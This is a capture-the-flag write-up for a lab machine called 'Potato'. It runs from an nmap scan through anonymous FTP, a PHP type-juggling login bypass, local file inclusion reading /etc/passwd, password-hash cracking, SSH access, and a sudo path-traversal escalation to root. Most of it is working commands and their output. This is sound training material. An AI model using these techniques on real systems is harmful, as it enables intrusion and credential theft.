


# Potato

First, we conduct an Nmap scan:

```
┌──(kali㉿kali)-[~/Desktop/openvpn-files]
└─$ nmap -sS -sV -Pn -p- 192.168.227.101             
Starting Nmap 7.94SVN ( [https://nmap.org](https://nmap.org) ) at 2026-07-13 10:07 EDT
Nmap scan report for 192.168.227.101
Host is up (0.081s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 126.16 seconds
```

We can see an FTP server hosted on port 2112. We can try logging in as an anonymous user:

```
┌──(kali㉿kali)-[~/Desktop/openvpn-files]
└─$ ftp 192.168.227.101 2112
Connected to 192.168.227.101.
220 ProFTPD Server (Debian) [::ffff:192.168.227.101]
Name (192.168.227.101:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password: 
230-Welcome, archive user anonymous@192.168.45.174 !
230-
230-The local time is: Mon Jul 13 14:13:48 2026
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||15348|)
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
226 Transfer complete
ftp>
```

We can see that the login succeeded, and now we can download files located on the server. First, we download the `index.php.bak` file:

```
ftp> get index.php.bak
local: index.php.bak remote: index.php.bak
229 Entering Extended Passive Mode (|||27801|)
150 Opening BINARY mode data connection for index.php.bak (901 bytes)
   901        4.59 MiB/s 
226 Transfer complete
901 bytes received in 00:00 (10.74 KiB/s)
ftp> 
```

After downloading the file, we open it and are presented with a hardcoded password:

```
┌──(kali㉿kali)-[~/Desktop/openvpn-files]
└─$ cat index.php.bak 
<html>
<head></head>
<body>

<?php

$pass= "potato"; //note Change this password regularly

...
...
...
```

We will leave that for later — now we head to the webpage hosted on port 80:


We see nothing interesting so far, so we conduct directory brute-forcing using the `gobuster` tool:

```
┌──(kali㉿kali)-[~/Desktop/openvpn-files]
└─$ gobuster dir -u "[http://192.168.227.101/](http://192.168.227.101/)" -w /usr/share/wordlists/dirb/big.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     [http://192.168.227.101/](http://192.168.227.101/)
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/admin                (Status: 301) [Size: 318] [--> [http://192.168.227.101/admin/](http://192.168.227.101/admin/)]
/server-status        (Status: 403) [Size: 280]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We can see a login panel at `/admin`:


The "potato" password hardcoded in `index.php.bak` happens to be outdated, but when we look at the file again, we can see another angle for login panel exploitation.

We do not know the password, but we can see that it is checked using the `==` operator, making it vulnerable to a PHP type juggling attack. All we have to do is intercept the request and change the password parameter to an empty array (`strcmp($_POST['password'],$pass)` will return `NULL`. When `NULL` is loosely compared to `0` using `==`, it evaluates to `true`).

We can intercept the HTTP request with Burp Suite and swap the password value for an empty array:



Now we are presented with an admin dashboard containing a few sections. Let's look at the "Logs" section. After examining the log retrieval functionality in Burp, we can see that a POST request with an interesting body is being sent:

```
POST /admin/dashboard.php?page=log HTTP/1.1
...

file=log_01.txt
```

The `file` parameter in the request body hints at a possible Local File Inclusion (LFI) vulnerability. We swap its value to `../../../../../../../etc/passwd` and forward the request. In response, we successfully retrieve the contents of the `/etc/passwd` file:



We can see that the password hash for the `webadmin` user is present. We can try to crack it using John the Ripper:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ echo -n 'webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/webadmin:/bin/bash' > hash.txt
                                                                                                                                                                             
...
...
...

┌──(kali㉿kali)-[~/Desktop]
└─$ john --wordlist=../rockyou.txt hash.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragon           (webadmin)     
1g 0:00:00:00 DONE (2026-07-22 13:38) 50.00g/s 19200p/s 19200c/s 19200C/s 123456..michael1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We obtained the password, so now we can log into the system via SSH:

```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh webadmin@192.168.187.101                     
The authenticity of host '192.168.187.101 (192.168.187.101)' can't be established.
ED25519 key fingerprint is SHA256:9DQds4tRzLVKtayQC3VgIo53wDRYtKzwBRgF14XKjCg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.187.101' (ED25519) to the list of known hosts.
webadmin@192.168.187.101's password: 
Permission denied, please try again.
webadmin@192.168.187.101's password: 
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-42-generic x86_64)

 * Documentation:  [https://help.ubuntu.com](https://help.ubuntu.com)
 * Management:     [https://landscape.canonical.com](https://landscape.canonical.com)
 * Support:        [https://ubuntu.com/advantage](https://ubuntu.com/advantage)

  System information as of Wed 22 Jul 2026 05:39:48 PM UTC

  System load:  0.0                Processes:               148
  Usage of /:   12.3% of 31.37GB   Users logged in:         0
  Memory usage: 24%                IPv4 address for ens192: 192.168.187.101
  Swap usage:   0%


118 updates can be installed immediately.
33 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

webadmin@serv:~$ whoami
webadmin
webadmin@serv:~$ hostanme

Command 'hostanme' not found, did you mean:

  command 'hostname' from deb hostname (3.23)

Try: apt install <deb name>

webadmin@serv:~$ hostname
serv
webadmin@serv:~$ 
```

After logging in, we can read the user flag located in `webadmin`'s home directory:

```
webadmin@serv:~$ ls
local.txt  user.txt
webadmin@serv:~$ cat local.txt
432d75f1457d19f396c24e5d15baa114
webadmin@serv:~$ 
```

Now we can proceed to privilege escalation. First, we check our `sudo` permissions on the host:

```
webadmin@serv:/$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
webadmin@serv:/$ 
```

We can see that we can execute any file in the `/notes` directory using `/bin/nice`. While we cannot write to `/notes`, we can bypass this limitation using path traversal. First, we create a script with the following contents in our home directory and grant it execution permissions:

```
webadmin@serv:~$ cat sc.sh 
#!/bin/bash

su - 
webadmin@serv:~$ chmod +x sc.sh 
webadmin@serv:~$ 
```

Next, we abuse the `sudo` privilege to gain a root shell and read our root flag:

```
webadmin@serv:~$ sudo /bin/nice /notes/../../../home/webadmin/sc.sh
root@serv:~# whoami
root
root@serv:~# hostname
serv
root@serv:~# ls
proof.txt  root.txt  snap
root@serv:~# cat proof.txt 
33544b32967fb29c8adf95cd77c55257
root@serv:~# 
```